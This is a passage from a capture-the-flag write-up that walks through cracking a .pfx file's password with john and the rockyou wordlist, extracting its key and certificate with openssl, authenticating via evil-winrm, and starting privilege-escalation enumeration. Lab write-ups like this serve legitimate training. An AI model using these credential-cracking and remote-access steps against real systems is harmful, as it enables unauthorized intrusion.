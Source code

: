 -   **Crack**:
    -   `john pfx.hash --wordlist=/home/kali/Wordlists/rockyou.txt`
    -   {{< figure src="/ox-hugo/2024-11-10-160440_.png" >}}


### Extracting the private key &amp; certificate with openssl from a `.pfx`: {#extracting-the-private-key-and-certificate-with-openssl-from-a-dot-pfx}

-   **Extract the private key**:
    ```bash
    openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legaccy_dev_auth-priv-key.pem -nodes
    ```

    -   {{< figure src="/ox-hugo/2024-11-10-160919_.png" >}}

-   **Extract the certificate**:
    ```bash
    openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out legaccy_dev_auth-cert.pem -nodes
    ```

    -   {{< figure src="/ox-hugo/2024-11-10-160954_.png" >}}


### Connecting with evil-winrm to the host using certificates: {#connecting-with-evil-winrm-to-the-host-using-certificates}

-   As we have extracted both the key and cert from the `.pfx` we can now authenticate with `evil-winrm`
    -   `evil-winrm -i $box -c legaccy_dev_auth-cert.pem -k legaccy_dev_auth-priv-key.pem -S`
    -   {{< figure src="/ox-hugo/2024-11-10-161634_.png" >}}
    -   +Note+: See how we used `S` for ssl as we are using cert based authentication.

-   **Grab our user flag**:
    -   {{< figure src="/ox-hugo/2024-11-10-162152_.png" >}}

-   **Check users on the host**:
    -   {{< figure src="/ox-hugo/2024-11-10-162240_.png" >}}


## 3. Privilege Escalation: {#3-dot-privilege-escalation}


### General Enumeration: {#general-enumeration}


#### Check group membership: {#check-group-membership}

-   **I check what groups we are part of**:
    -   `whoami /groups`
    -   {{< figure src="/ox-hugo/2024-11-10-194407_.png" >}}


#### Check privileges: {#check-privileges}

-   **Check our privs**:
    -   `whoami /priv`
    -   {{< figure src="/ox-hugo/2024-11-10-194714_.png" >}}
